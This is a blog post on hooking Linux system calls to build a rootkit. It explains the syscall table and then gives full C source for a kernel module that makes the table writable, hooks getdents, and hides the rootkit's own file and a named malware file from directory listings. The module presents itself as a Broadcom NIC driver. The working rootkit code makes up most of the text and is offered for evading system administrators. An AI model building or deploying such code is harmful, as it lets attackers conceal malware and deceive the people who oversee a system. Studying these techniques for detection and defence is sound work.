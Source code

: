 ```yaml
---
title: 'The Art of Syscall Hooking'
categories: ['Hacking', 'Rootkits', 'Post Exploitation', 'security research']
tags: [
    'Exploit Development',
    'hacking',
    'redteaming',
    'rootkits',
    'security research',
]
date: '2020-03-28'
type: 'post'
weight: 400
keywords: 'hacking rootkits'
---
```


How can we have our rootkit avoid detection from prying eyes? What kinds of things do we want to hide from?

This time we get into the meat and bones of our rootkit and look at hooking system calls (sys calls) to help us remain hidden from the wandering eyes of system administrators.

## Syscall Hooking

> Note there are other types of hooking, I.E inline hooking (most windows rootkits)

Hooking is not a new concept and forms a part of normal operation in the Linux kernel. The kind of hooking we will use involves two key concepts at its most basic level; pointers and the system call table.

In order to make useful changes that help us with our objective, for example remaining cloaked from system programs (and those who execute them) we will need to alter these functions. One way we can do this is by hooking the system call table.

The system call table from an abstracted view is a big list which acts as a directory to kernel functions/methods, for example reading data `sys_read`, we can think of it metaphorically, and archaically, as an address book. Under each ‘entry’ in the table we can find the address, in this case that address is a pointer to the location of a function in memory. If we ‘go’ to that address under the listing we will ‘execute’ the code that is stored there. The concept of hooking therefore is that instead of a program's read call going to the system call table and ‘looking up’ the location of the read function in memory and then executing it, it instead points to our modified function in memory and executes that instead. From here we can perform near arbitrary changes to the operation of that program and return our changes to the userland program that originally triggered the call.

As a side note the userland program does not directly go to the system call table to execute these functions, it instead has the kernel perform these calls on its behalf. Therefore our rootkit must operate as part of the kernel to see these system calls and intercept them (hooking). The following diagram illustrates the concept.

![hooking diagrammatically](https://i.imgur.com/OhmoJim.png)

## Modified `insert` syscall

What do our modified calls actually do? The answer to that really depends on the objective of the kit, but since we are developing one to cloak our malware and itself we will focus on that notion (which should be pretty common among the vast majority of rootkits). With this in mind we want our modified calls to essentially 'dis-include' our rootkit files and our malware files (since everything is a file in Linux this includes the module file etc) and then return to the normal function as if nothing has changed ...

Here is a small fragment that will hide a “named” kernel object file (our rootkit) and other named files of our choosing from the ls command and its variants:

```C
//Neccessary header files
#include <linux/init.h> //macros
#include <linux/module.h>
#include <linux/syscalls.h>
#include <linux/kallsyms.h> //Call system
#include <linux/slab.h>
#include <linux/kern_levels.h>
#include <linux/gfp.h>
#include <asm/unistd.h>
#include <asm/paravirt.h>
#include <linux/kernel.h> //Kernel


//Assists with kernel taint warnings etc
MODULE_LICENSE("GPL");
MODULE_AUTHOR("Broadcom");
MODULE_DESCRIPTION("NIC Device Driver");
MODULE_VERSION("1.0");


unsigned long **SYS_CALL_TABLE;

//Adaptation for 5.0.3.42 and lower (CR4 pinning and CR0 bypass)
void EnablePageWriting(unsigned long address){
	unsigned int level;
	pte_t *pte = lookup_address(address, &level);

	if(pte->pte &~ _PAGE_RW){
		pte->pte |= _PAGE_RW;
	}
}

void DisablePageWriting(unsigned long address){
	unsigned int level;

	pte_t *pte = lookup_address(address, &level);

	pte->pte = pte->pte &~ _PAGE_RW;

}


struct linux_dirent {
	unsigned long	  d_ino;    /* Inode number */
	unsigned long	  d_off;	  /* Offset to next linux_dirent */
	unsigned short	d_reclen; // d_reclen is the way to tell the length of this entry
	char		      d_name[];   // the struct value is actually longer than this, and d_name is variable width.
}*dirp2 , *dirp3 , *retn;   // // dirp = directory pointer -> Utility pointers


// ------ MALWARE DROP & Verto file hides ------ //

/* Hardcoded malware package - Rename to something
'common'
*/
char payload[]="malware_demo_file.py";


// ------- HIDE ROOTKIT DRIVER FILE -------- //
char ko_fl[]  = "verto.ko";

//Original getdents syscall from kernel files (aka kallsym {'call system'})
asmlinkage int ( *original_getdents ) (unsigned int fd, struct linux_dirent *dirp, unsigned int count);

/*
    -- HOW THIS HIDE FUNCTION WORKS --

~> Hook the call for the read/open command
~> Point it to directory traversal code
    ~> Uses byte calculations to determine how many resources (represented by structures ) are in dir
~> Once it reaches the file to be hidden
    ~> it 'skips' it and performs the byte arithmetic to continue normally
    ~> displaying everything else in the
*/

asmlinkage int	HookGetDents(unsigned int fd, struct linux_dirent *dirp, unsigned int count){

  struct linux_dirent *retn, *dirp3;
  int Records, RemainingBytes, length;

  Records = (*original_getdents) (fd, dirp, count);

  if (Records <= 0){
    return Records;
  }

  retn = (struct linux_dirent *) kmalloc(Records, GFP_KERNEL);
  //Copy struct from userspace to our memspace in kernel space
  copy_from_user(retn, dirp, Records);

  dirp3 = retn; //Holds directory pointer for current dir, used to iterate over
  RemainingBytes = Records;

    //While still stuff in the dir
  while(RemainingBytes > 0){
    length = dirp3->d_reclen; //len of record
    RemainingBytes -= dirp3->d_reclen; //Gives numerical representation of next struct

    //Debugging
    printk(KERN_INFO "RemainingBytes %d   \t File: %s " ,  RemainingBytes , dirp3->d_name );


    if((strcmp( (dirp3->d_name) , payload) == 0) || (strcmp( (dirp3->d_name) , ko_fl) == 0)){
        memcpy(dirp3, (char*)dirp3+dirp3->d_reclen, RemainingBytes);
        Records -= length; //  replaces dirp3->d_reclen;
    }

    //Shift pointer to next structure (file)
    dirp3 = (struct linux_dirent *) ((char *)dirp3 + dirp3->d_reclen);

  }
  // Copy the record back to the origional struct
  copy_to_user(dirp, retn, Records); //Return to user space (using copy_to_user macro)
  kfree(retn); //Free memory
  return Records;
}


// Set up hooks.
static int __init SetHooks(void) {
	// Gets Syscall Table **
 	SYS_CALL_TABLE = (unsigned long**)kallsyms_lookup_name("sys_call_table");

	printk(KERN_INFO "Hooks Will Be Set.\n");
	printk(KERN_INFO "System call table at %p\n", SYS_CALL_TABLE);

  // Opens the memory pages to be written
	EnablePageWriting((unsigned long )SYS_CALL_TABLE);

  // Replaces Pointer Of Syscall_open on our syscall.
	original_getdents = (void*)SYS_CALL_TABLE[__NR_getdents];
	SYS_CALL_TABLE[__NR_getdents] = (unsigned long*)HookGetDents;
	DisablePageWriting((unsigned long )SYS_CALL_TABLE);

	return 0;
}


static void __exit HookCleanUp(void) {

	// Clean up our Hooks
	EnablePageWriting((unsigned long )SYS_CALL_TABLE);
	SYS_CALL_TABLE[__NR_getdents] = (unsigned long*)original_getdents;
	DisablePageWriting((unsigned long )SYS_CALL_TABLE);
	printk(KERN_INFO "Hooks cleaned up");
}

module_init(SetHooks);
module_exit(HookCleanUp);

```
